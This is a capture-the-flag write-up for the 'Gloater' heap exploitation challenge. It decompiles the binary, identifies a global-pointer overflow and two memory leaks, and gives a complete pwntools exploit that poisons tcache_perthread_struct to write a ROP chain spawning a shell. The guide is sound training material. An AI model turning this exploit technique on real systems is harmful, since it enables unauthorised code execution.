

<font size="10">Gloater</font>

​       13<sup>st</sup> Feb 2023

​       Challenge Author: ir0nstone


# Synopsis

Gloatar is an Insane pwn challenge that requires the user to perform a partial overwrite over a global pointer to free `tcache_perthread_struct` and then allocate a chunk over it to control the tcache and write a ropchain to the stack.

## Description:

One thing that the overlords at KORP™ know best is the sheer sadistic value of taunting opponents. Throughout The Fray, onlookers can eagerly taunt and deride the contestants, pushing them mentally and breaking their will. By the end of the psychological torture, little of what was once human remains.

You have come across a *Gloater*, one of the devices left around the Arena of The Fray. Gloaters allow you to send sardonic messages to the others, even taking on the shapes of their loved ones as the words cut deep into their psyche. But there's another well-known effect of such a weapon - the user of the Gloater puts a target on his back, as contestants from all factions swear to destroy the one who uses it.

## Skills Required
 - Basic ROP knowledge
 - An understanding of how the tcache and its storage works

## Skills Learned
 - Using partial overwrites
 - Abusing `tcache_perthread_struct`

# Enumeration

We are given the `gloater` binary as well as a Docker environment to test it in. Let's check out the functionality:



Luckily the binary is not stripped, so we can break it apart. I'll be using IDA Free for this.

## Decompilation

### `main()`

A classic menu:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-94h] BYREF
  char v5[136]; // [rsp+10h] [rbp-90h] BYREF
  int (**v6)(const char *); // [rsp+98h] [rbp-8h]

  setup(argc, argv, envp);
  v6 = &puts;
  libc_start = (__int64)(&puts - 67716);
  libc_end = (__int64)(&puts + 188284);
  printf("Enter User\nDo not make a mistake, or there will be no safeguard!\n> ");
  read(0, user, 0x10uLL);
  v4 = 0;
  while ( 1 )
  {
    printf(
      "1) Update current user\n"
      "2) Create new taunt\n"
      "3) Remove taunt\n"
      "4) Send all taunts\n"
      "5) Set Super Taunt\n"
      "6) Exit\n"
      "> ");
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        change_user();
        break;
      case 2:
        create_taunt();
        break;
      case 3:
        remove_taunt();
        break;
      case 4:
        send_taunts();
      case 5:
        set_super_taunt(v5);
        break;
      default:
        exit(0);
    }
  }
}
```

It calls `setup()` before taking in a username. It also strangely stores the address of `puts`, which it then uses the calculate `libc_start` and `libc_end`. We'll see why it does that later.

Aside from that, we can see the `read()` function is not null-terminated.

### `setup()`

```c
void __fastcall setup()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  alarm(0x7Fu);
  old_malloc_hook = _malloc_hook;
  _malloc_hook = (__int64)my_malloc_hook;
  old_free_hook = _free_hook;
  _free_hook = (__int64)my_free_hook;
}
```

`setup()` sets the buffering, but even more importantly, it sets two new global variables: `old_malloc_hook` and `old_free_hook`.

This is the [classic way to enable hooks](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html) - we save the old ones, and set our own. Let's see what the custom hooks do:

```c
void *__fastcall my_malloc_hook(size_t a1)
{
  void *v2; // [rsp+18h] [rbp-8h]

  _malloc_hook = old_malloc_hook;
  _free_hook = old_free_hook;
  v2 = malloc(a1);
  old_malloc_hook = _malloc_hook;
  old_free_hook = _free_hook;
  validate_ptr(v2);
  _malloc_hook = (__int64)my_malloc_hook;
  _free_hook = (__int64)my_free_hook;
  return v2;
}

__int64 (__fastcall *__fastcall my_free_hook(void *a1))()
{
  __int64 (__fastcall *result)(); // rax

  _malloc_hook = old_malloc_hook;
  _free_hook = old_free_hook;
  validate_ptr(a1);
  free(a1);
  old_malloc_hook = _malloc_hook;
  old_free_hook = _free_hook;
  _malloc_hook = (__int64)my_malloc_hook;
  result = my_free_hook;
  _free_hook = (__int64)my_free_hook;
  return result;
}
```

They both do essentially the same thing: they run `validate_ptr()` on the pointers either returned from `malloc()` or given to `free()`. What does `validate_ptr()` do?

```c
void __fastcall validate_ptr(unsigned __int64 ptr)
{
  if ( ptr >= libc_start && ptr <= libc_end )
  {
    puts("Did you really think?");
    exit(-1);
  }
}
```

Ah. It checks if the pointer is within libc, and if so, quits. This makes our exploit much more difficult, as we can't overwrite any hooks for a quick win.

### `change_user()`

```c
int change_user()
{
  int result; // eax
  char buf[20]; // [rsp+0h] [rbp-20h] BYREF
  int len; // [rsp+14h] [rbp-Ch]
  int i; // [rsp+18h] [rbp-8h]
  int no_space; // [rsp+1Ch] [rbp-4h]

  if ( user_changed )
  {
    puts("You have already changed the User. There is only one life.");
    exit(0);
  }
  puts("Setting the User is a safeguard against getting destroyed");
  printf("New User: ");
  len = read(0, buf, 0x10uLL);
  no_space = 1;
  for ( i = 0; i <= 15; ++i )
  {
    if ( buf[i] == 32 )
    {
      no_space = 0;
      break;
    }
  }
  printf("Old User was %s...\n", user);
  if ( no_space )
  {
    strcpy(user, "PLAYER FROM THE FACTIONLESS ");
    strncpy(&dest, buf, len);
  }
  result = puts("Updated");
  user_changed = 1;
  return result;
}
```

First it checks that the `user_changed` variable is not set, in which case it exits - this means we can only change it once. It then reads in `0x10` bytes for a new username into `buf`. After that is checks if there is a space (to see if a faction is set) and, if not, it appends `PLAYER FROM THE FACTIONLESS ` ahead of it. It also prints out our old one, after we entered the new one.

There is a bug here - while it takes in `0x10` bytes, it appends it to the end of the `PLAYER FROM THE FACTIONLESS ` string, which overruns the `user` variable!

If we check memory, we can see what's located after it:

```
.bss:0000000000004100 ; char user[16]
.bss:0000000000004100 user            dq ?                    ; DATA XREF: main+5F↑o
.bss:0000000000004100                                         ; change_user+34↑o ...
.bss:0000000000004108 qword_4108      dq ?                    ; DATA XREF: change_user+B7↑w
.bss:0000000000004110                 public super_taunt_plague
.bss:0000000000004110 super_taunt_plague dq ?                 ; DATA XREF: change_user+C8↑w
.bss:0000000000004110                                         ; set_super_taunt+108↑w
.bss:0000000000004118 dword_4118      dd ?                    ; DATA XREF: change_user+CF↑w
.bss:000000000000411C ; char dest
.bss:000000000000411C dest            db ?                    ; DATA XREF: change_user+D9↑w
.bss:000000000000411C                                         ; change_user+E6↑o
.bss:000000000000411D                 align 20h
.bss:0000000000004120                 public taunts
.bss:0000000000004120 taunts          db    ? ;
```

`super_taunt_plague`, followed by the `taunts` array! We could potentially overwrite these.

Additionally, the lack of null-byte termination means we could potentially leak `super_taunt_plague`. As we see later, this is a **stack address**, giving us a leak.

### `create_taunt()`

The return values are never used, so I'm going to right-click on the variables and hit **Remove Return Value** to see if the decompilation is nicer. It is, a bit:

```c
void __fastcall create_taunt()
{
  int v0; // eax
  char buf[1028]; // [rsp+0h] [rbp-410h] BYREF
  int v2; // [rsp+404h] [rbp-Ch]
  void *s; // [rsp+408h] [rbp-8h]

  if ( taunt_count <= 7 )
  {
    s = malloc(0x28uLL);
    memset(s, 0, 0x28uLL);
    printf("Taunt target: ");
    read(0, s, 0x1FuLL);
    if ( !strcmp((const char *)s, user) )
    {
      puts("DANGER: You entered yourself");
      puts("Bet you're glad you paid attention initially, eh?");
      puts("Next time, you won't be so lucky.");
    }
    else
    {
      memset(buf, 0, 0x400uLL);
      printf("Taunt: ");
      v2 = read(0, buf, 0x3FFuLL);
      *((_QWORD *)s + 4) = malloc(v2);
      memset(s, 0, 0x10uLL);
      memcpy(*((void **)s + 4), buf, v2);
      v0 = taunt_count++;
      taunts[v0] = s;
    }
  }
  else
  {
    puts("Cannot taunt more. You must risk it again.");
  }
}
```

So, firstly, we see that `taunt_count` has to be `<= 7`. As it starts at `0`, this means we have a maximum of `8` taunts. It then allocates some space at the heap nulls it out, and takes in a taunt target. If it's not equal to the current user, it'll read up to `0x400` bytes into `buf` (no overflow, null-byte terminated). The length is stored in `v2`, and a chunk of that length is allocated for it. The data is then copied over and a pointer to it is stored at offset `s + 0x20` in memory (4 qwords, of 8 bytes each, is `0x20`).

This gives us the idea of a general struct:

```c
struct Taunt {
    char target[0x20];
    char *taunt_data;
};
```

We can add that into IDA in the **Structures** tab. Hit **Ins** and call it `taunt`, then right-click on the `ends` text to add a new `String` that we set to `char target[32]`. Add another `char` pointer called `taunt_data`.

We then go back to `create_taunt()` and change the type of `s` to `taunt *`, and also rename it to `new_taunt`. `v0` can be renamed to `idx` and `v2` to `len`. I also go to the `taunts` global variable and change it to an array of `taunt *`.

### `remove_taunt()`

```c
int remove_taunt()
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  taunt *ptr; // [rsp+8h] [rbp-8h]

  printf("Index: ");
  __isoc99_scanf("%d", &idx);
  if ( idx < 0 || idx >= taunt_count )
    return puts("Invalid Index");
  if ( !taunts[idx] )
    return puts("Taunt already removed");
  ptr = taunts[idx];
  free(ptr->taunt_data);
  free(ptr);
  taunts[idx] = 0LL;
  return puts("Taunt removed");
}
```

I changed `ptr` to a `taunt *` variable to clean up the decompilation.

Very simple, the validity is checked to make sure it is both in range and not removed already. In that case, everything that needs to be freed is freed. No vulnerabilities here.

### `send_taunts()`

```c
void __noreturn send_taunts()
{
  int i; // [rsp+Ch] [rbp-4h]

  puts("Taunting...");
  for ( i = 0; i < taunt_count; ++i )
  {
    free(taunts[i]->taunt_data);
    free(taunts[i]);
    taunts[i] = 0LL;
  }
  exit(0);
}
```

Frees everything and exits. No vulnerability, but in another challenge it could be used to trigger `__free_hook`.

### `set_super_taunt()`

After a quick clean-up, it looks like this:

```c
void __fastcall set_super_taunt(char *ptr)
{
  int idx; // [rsp+18h] [rbp-8h] BYREF
  int len; // [rsp+1Ch] [rbp-4h]

  if ( super_taunt_set )
  {
    puts("Super Taunt already set.");
  }
  else
  {
    printf("Index for Super Taunt: ");
    __isoc99_scanf("%d", &idx);
    if ( idx >= 0 && idx < taunt_count )
    {
      if ( taunts[idx] )
      {
        super_taunt = taunts[idx];
        printf("Plague to accompany the super taunt: ");
        len = read(0, ptr, 0x88uLL);
        printf("Plague entered: %s\n", ptr);
        super_taunt_plague = (__int64)ptr;
        puts("Registered");
        super_taunt_set = 1;
      }
      else
      {
        puts("Taunt was removed...");
      }
    }
    else
    {
      puts("Error: Invalid Index");
    }
  }
}
```

A **Super Taunt** appears to be a taunt that has an accompanying plague. The plague is read into the parameter `ptr`, which is buffer `v5` in `main()`, so we can therefore rename `v5` to `super_taunt_plague`.

Once again, there is no null-termination! We can see that `super_taunt_plague` in `main()` is stored just before the location of `puts` in memory (which is for calculating the `validate_ptr()` bounds). As it's printed back to us, this can also be used for a libc leak!

### Summary

We've located two leaks:

* Stack leak through `change_user()`
* Libc leak through `set_super_taunt()`

We also have an overflow in the `user` variable to overwrite, for example, entries in the `taunts` array.

# Solution

## Setting up debugging in Docker

Now we have an idea for the exploit path, let's once again hook up GDB. As with `oracle`, we'll add `gdb` and `gdbserver` to the installs:

```dockerfile
RUN apt-get install -y socat gdb gdbserver
```

We also add the following flags in `build-docker.sh` to allow the gdbserver to connect out to our GDB:

```sh
-p 9090:9090 --cap-add=SYS_PTRACE
```

Now once we run `./build-docker.sh`, we have to get a shell in the image and connect the gdbserver up to it:

```sh
$ docker exec -it gloater /bin/bash
ctf@c05c86d3e00d:~$ gdbserver :9090 --attach $(pidof gloater)
Attached; pid = 7
Listening on port 9090
```

Then we can just connect from another terminal:

```sh
$ gdb gloater
pwndbg> target remote :9090
```

And we are debugging the remote instance. We're also going to quickly grab the libc from the Docker image:

```sh
$ docker cp gloater:/usr/lib/x86_64-linux-gnu/libc-2.31.so .
```

## Plan

So, we have a pointer overwrite. That's essentially our entire vulnerability! But what can we do with it?

We could, hypothetically, overwrite the pointer to somewhere that we would like to write to - the stack, or libc, as those are our two leaks. There are issues with both of these.

Firstly, there is no `edit()` feature - you can only `free()` the pointer we overflow into. Yes, later we _can_ `create_taunt()` to reuse the same chunk after freeing it, but that occurs *before* our stack leak - so we can't write a stack address. We can only write a libc address - which we can't free or malloc to anyway, due to the hooks. And we can't overflow twice, as we can only change our name once.

The approach we'll take here is to partial overwrite the pointer with the address of the `tcache_perthread_struct` on the heap. We have a 1/16 chance of bruteforcing the 4th-last hex character correctly. Once we have a pointer there, we can free it, then create another chunk to be allocated there. We can then overwrite the head of any bin with a stack address, so our next allocation writes a ropchain to the stack!

## Leaking

First, some basic setup:

```python
from pwn import *

elf = context.binary = ELF('./challenge/gloater')
libc = ELF('./libc-2.31.so')
p = remote('127.0.0.1', 9001)

def change_user(name):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'New User: ', name)
    p.recvuntil(b'Old User was ')
    return p.recvuntil(b'...', drop=True)

def create_taunt(target, description):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'target: ', target)
    p.sendlineafter(b'Taunt: ', description)

def remove_taunt(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

def set_super_taunt(idx, description):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'Taunt: ', str(idx).encode())
    p.sendlineafter(b'taunt: ', description)
```

We ignore the **Send All Taunts** option as it isn't used.

```python
p.sendlineafter(b'> ', b'A' * 0x10)             # send name 16 bytes
create_taunt(b'yes', b'no')                     # create a taunt
set_super_taunt(0, b'A'*0x88)                   # set the super taunt

p.recvuntil(b'A'*0x88)
leak = u64(p.recv(6) + b'\0\0')
libc.address = leak - libc.sym['puts']
log.success(f'LIBC Base: 0x{libc.address:x}')

payload = b'A' * 4                              # offset to first entry
payload += b'\x10\x10'                          # brute 4th-last bit as a `1`
leak = change_user(payload)
leak = leak.split(b'A' * 0x10)[1]
leak += b'\0' * 2
leak = u64(leak)
log.success(f'Leak: 0x{leak:x}')
```

## Writing a ropchain to the stack

Then from there it's simple - just find the location of the return address relative to our leak, overwrite a head of the `tcache_perthread_struct` bins with the location, and then create a taunt with the description of that chunk size and write the ropchain! Don't forget to account for stack alignment.

```python
# ... now free tcache
remove_taunt(0)

# fake tcache!
# tcache is size 0x290
# so we need to input 0x280 data
ret_addr = leak - 0x18
log.info(f'Writing to 0x{ret_addr:x}')

tcache_fake = p16(0) * 12               # pad it out...
tcache_fake += p16(1)                   # 0xe0 bin...
tcache_fake += p16(0) * (64-12-1)       # rest of bins
tcache_fake += p64(0) * 12              # get to nice size
tcache_fake += p64(ret_addr)            # overwrite 0xe0 bin...!
tcache_fake = tcache_fake.ljust(0x280-1, b'\x00') # -1 for newline...

create_taunt(b'dontcare', tcache_fake)  # works!

# now to use arb write?
# have to use the 0xe0 bin!
rop = ROP(libc)

rop.raw(libc.address + 0x22679)
rop.system(next(libc.search(b'/bin/sh\0')))

payload = rop.chain()
payload = payload.ljust(0xd0, b'A')     # pad so it uses the 0xe0 bin

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'target: ', b'nomatter')
pause()
p.sendlineafter(b'Taunt: ', payload)

p.interactive()
```

Remember it will only work 1/16 times! The best way to do this is to put a `pause()` just before `remove_taunt(0)` and hook up with GDB. Check the memory address at `taunts`:

```gdb
pwndbg> x/gx &taunts
0x55f4dfd9c120 <taunts>:	0x000055f4e1121010
```

Then overwrite it with whatever character it's meant to be (which you can get from commands like `vmmap` or `vis_heap_chunks`):

```gdb
pwndbg> set {long}0x55f4dfd9c120=0x000055f4e1120010
```

Then continue the exploit and it will work.

Transfer it remote and grab the flag!
